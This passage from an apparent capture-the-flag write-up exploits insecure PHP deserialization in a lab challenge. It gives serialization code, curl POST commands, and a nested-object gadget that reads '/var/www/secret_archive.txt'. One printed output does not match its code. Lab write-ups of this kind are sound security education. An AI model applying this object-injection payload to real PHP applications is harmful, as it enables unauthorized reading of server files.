 Note how they said that you should serialize the cereal entry. This can also be confirmed with the code above. To start we need to figure out what to send in the first place. We'll make a class object and serialize it:
```php
$class = new cereal();
$class->cereal_name = "blah";
$class->cereal_flavor = "blah";
$class->cereal_brand = "blah";
echo serialize($class);
```

This gives us:
```
O:6:"cereal":3:{s:11:"cereal_name";s:4:"FLAG";s:13:"cereal_flavor";s:4:"blah";s:12:"cereal_brand";s:4:"blah";}
```

Lets build our curl command:
```
curl -X POST 'https://cerealize.challenges.virginiacyberrange.net/cerealize.php' -F 'cereal="O:6:\"cereal\":3:{s:11:\"cereal_name\";s:4:\"blah\";s:13:\"cereal_flavor\";s:4:\"blah\";s:12:\"cereal_brand\";s:4:\"blah\";}"'
```

- `curl`: cmd
- `-X`: type of request
- `POST`: specify type
- `'https..`: website to send request to
- `-F`: specify the next input is form-data (since $_POST doesn't see request body data)
- `'cerea..`: the form data under the "cereal" parameter


We can verify this works if we run it:
```
┌──(kali㉿kali)-[~]
└─$ curl -X POST 'https://cerealize.challenges.virginiacyberrange.net/cerealize.php' -F 'cereal="O:6:\"cereal\":3:{s:11:\"cereal_name\";s:4:\"blah\";s:13:\"cereal_flavor\";s:4:\"blah\";s:12:\"cereal_brand\";s:4:\"blah\";}"'
...

Thanks for submitting a new cereal for our archive!You told us aboutblah; we'll see if it's in our archive! If not, we'll add it.
</html>
```

Looks like that's good, now we know that the `cereal_name` parameter is being printed in:
```php
public function display_submission(){
	echo "You told us about" . $this->cereal_name . "; we'll see if it's in our archive! If not, we'll add it.";
}
```

This means we need to somehow call `(string) new secret_cereal_archive()`. Since we can serialize objects, why not make a `secret_cereal_archive` object?
```php
$exploit = new secret_cereal_archive();
$exploit->filename = "/var/www/secret_archive.txt";

$class = new cereal();
$class->cereal_name = $exploit;
$class->cereal_flavor = "FLAVOR";
$class->cereal_brand = "BRAND";
echo serialize($class)
```
